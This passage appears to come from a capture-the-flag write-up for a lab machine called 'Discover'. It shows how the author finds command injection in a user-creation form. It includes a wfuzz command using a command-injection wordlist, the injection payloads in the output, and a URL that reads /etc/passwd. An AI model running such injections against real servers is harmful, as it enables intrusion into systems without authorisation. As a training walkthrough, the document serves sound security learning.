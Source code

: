 After adding the newly found sub domain to that ***/etc/hosts*** files we can access it.

![image](https://user-images.githubusercontent.com/76552238/191727726-3b38b757-7882-4d57-83d7-9f8f4f185f5d.png)

The ***"Submit"*** button is disabled.

![image](https://user-images.githubusercontent.com/76552238/191743128-a021da13-5b3a-4353-bf25-37511b24990f.png)

We can use it by deleting the "**disabled**" option.

![image](https://user-images.githubusercontent.com/76552238/191743324-253b1de7-1614-4f0d-8255-9ea38d3313ba.png)

After entering a pseudo password we can see that the web server is using ***GET*** instead of ***POST*** to create a user.

![image](https://user-images.githubusercontent.com/76552238/191743527-9dcaa588-66eb-4af4-b986-b53afef8082b.png)

Let's try to find vulnerabilities on the remote machine by fuzzing the parameters.  
Trying to fuzz LFI didn't work, let's see if we can perform a ***RCE***.

    root@kali ~/D/M/Discover# wfuzz -c -w /usr/share/wordlists/SecLists/Fuzzing/command-injection-commix.txt -u 'http://log.discover.hmv/index.php?username=FUZZ&password=password' --hw 51
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: http://log.discover.hmv/index.php?username=FUZZ&password=password
    Total requests: 8262

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                   
    =====================================================================

    000000047:   200        23 L     52 W       844 Ch      "%0aecho%20MBVQWK$((48%2B90))$(echo%20MBVQ
                                                            WK)MBVQWK"                                
    000000040:   200        23 L     52 W       843 Ch      "echo%20CWRXRJ$((77%2B13))$(echo%20CWRXRJ)
                                                            CWRXRJ"                                   
    000000041:   200        23 L     52 W       844 Ch      "%20echo%20IBQHOS$((92%2B76))$(echo%20IBQH
                                                            OS)IBQHOS"                                
    000000060:   200        23 L     52 W       845 Ch      "%0aecho%20MESJOF$((62%2B27))$(echo%20MESJ
                                                            OF)MESJOF//"                              
    000000053:   200        23 L     52 W       845 Ch      "echo%20DINEVC$((57%2B17))$(echo%20DINEVC)
                                                            DINEVC//"                                 
    000000054:   200        23 L     52 W       846 Ch      "%20echo%20BSYIFX$((64%2B71))$(echo%20BSYI
                                                            FX)BSYIFX//"                              
    000000008:   200        23 L     52 W       844 Ch      "%0aecho%20VVIEOJ$((30%2B78))$(echo%20VVIE
                                                            OJ)VVIEOJ"  

We have different output for the inputs, that means that we can run commands on the remote server. Let's try to read the ***/etc/passwd*** file on the remote server using the '***cat***' command.  
Going to ***http://log.discover.hmv/index.php?username=cat%20/etc/passwd&password=password***, we can get the output of the **/etc/passwd** file on the remote machine.
